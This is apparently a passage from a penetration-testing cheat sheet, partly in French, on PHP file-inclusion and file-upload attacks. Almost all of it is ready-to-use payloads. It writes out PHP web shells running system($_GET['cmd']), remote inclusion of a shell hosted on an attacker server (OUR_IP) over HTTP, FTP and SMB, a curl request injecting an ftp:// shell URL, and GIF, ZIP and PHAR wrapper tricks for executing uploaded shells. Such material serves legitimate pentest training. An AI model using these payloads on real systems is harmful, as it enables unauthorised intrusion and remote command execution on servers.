 ```
language=http://OUR_IP:8000/shell.php&cmd=id
```

#### FTP

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php |
sudo python -m pyftpdlib -p 21
```

```
ftp://OUR_IP:21/shell.php&cmd=id
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

#### SMB

```bash
impacket-smbserver -smb2support share $(pwd)
```

```
\\OUR_IP\share\shell.php&cmd=id
```





## FILE UPLOADS

### Image (récupérer URL en inspectant la page)

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```url
./path/to/shell.gif&cmd=id
```

### ZIP

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```url
zip://./path/to/shell.jpg%23shell.php&cmd=id
```

### PHAR

webshell.php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
